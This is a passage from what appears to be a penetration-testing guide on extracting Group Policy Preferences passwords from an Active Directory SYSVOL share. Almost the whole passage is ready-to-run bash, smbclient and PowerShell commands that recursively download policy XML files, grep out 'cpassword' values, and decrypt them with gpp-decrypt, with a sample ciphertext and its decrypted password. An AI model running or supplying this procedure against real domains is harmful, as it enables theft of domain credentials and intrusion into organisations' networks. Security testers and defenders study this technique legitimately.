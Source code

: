 ### Method 2: Manual SYSVOL Enumeration
```bash
# Mount SYSVOL share
smbclient //domain.com/SYSVOL -U username%password

# Navigate to policies directory
cd domain.com/Policies/

# List all policy GUIDs
dir

# Search for GPP files recursively
find . -name "*.xml" -type f

# Download GPP files for analysis
get {GUID}/Machine/Preferences/Groups/Groups.xml
get {GUID}/User/Preferences/Groups/Groups.xml
```

### Method 3: PowerShell Enumeration
```powershell
# PowerShell script to find GPP files
Get-ChildItem -Path "\\domain.com\SYSVOL\domain.com\Policies\" -Recurse -Include "*.xml" | 
Where-Object { $_.Name -match "(Groups|Services|Scheduledtasks|DataSources|Drives|Printers)" } |
ForEach-Object {
    $content = Get-Content $_.FullName
    if ($content -match "cpassword=") {
        Write-Host "[+] Found cPassword in: $($_.FullName)" -ForegroundColor Green
        $content | Select-String "cpassword=" 
    }
}
```

### Method 4: Linux Command Line Tools
```bash
# Using smbclient and find
smbclient //domain.com/SYSVOL -U username%password -c "prompt OFF; recurse ON; mget *"

# Search for XML files containing cpassword
find . -name "*.xml" -exec grep -l "cpassword" {} \;

# Extract cpassword values
grep -r "cpassword=" . --include="*.xml" | cut -d'"' -f4
```

## Manual Decryption

### Using gpp-decrypt
```bash
# Decrypt cPassword manually using gpp-decrypt
gpp-decrypt Ju9qmLzQeH61Nrqk/bbEB1CfOFVqOIGOUevB4wAvOng
# Output: $uP3r5ekr1tpass

# Decrypt multiple passwords from file
echo "Ju9qmLzQeH61Nrqk/bbEB1CfOFVqOIGOUevB4wAvOng" | gpp-decrypt
echo "otherEncryptedPassword" | gpp-decrypt
```
